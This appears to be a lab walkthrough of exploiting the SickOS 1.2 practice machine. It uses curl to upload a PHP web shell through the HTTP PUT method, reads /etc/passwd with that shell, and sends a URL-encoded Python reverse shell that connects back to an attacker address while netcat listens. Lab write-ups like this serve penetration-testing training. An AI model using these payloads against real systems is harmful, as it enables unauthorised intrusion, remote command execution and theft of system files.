 # Scenarios: PUT/Upload

## Example 1:

Upon checking for HTTP methods available on the directory “test” using cURL, it was found that it can be potentially vulnerable to HTTP PUT method exploit.
```
curl -v -X OPTIONS http://192.168.216.128/test
```


Learning this, SickOS 1.2 was tested if it was possible to create a simple backdoor web shell using the HTTP PUT method exploit.
```

curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.216.128/test/shell.php
```

The result shows that SickOS 1.2 was indeed vulnerable to HTTP PUT method exploit.

Browsing to the test directory showed that the webshell was successfully created.
```
http://192.168.216.128/test
```
The webshell was then tested if it was properly working by reading the “/etc/passwd” file of SickOS 1.2.

Seeing the contents of “/etc/passwd/” file proves that the web shell was indeed working.
```
http://192.168.216.128/test/shell.php?cmd=cat%20/etc/passwd

```
The webshell was then used to run a reverse shell Python command while a Netcat was opened to listen for incoming connections. This resulted on gaining a shell with low privilege access.
```
nc -nlvp 443
```
```
http://192.168.216.128/test/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22192.168.216.129%22,443%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
```
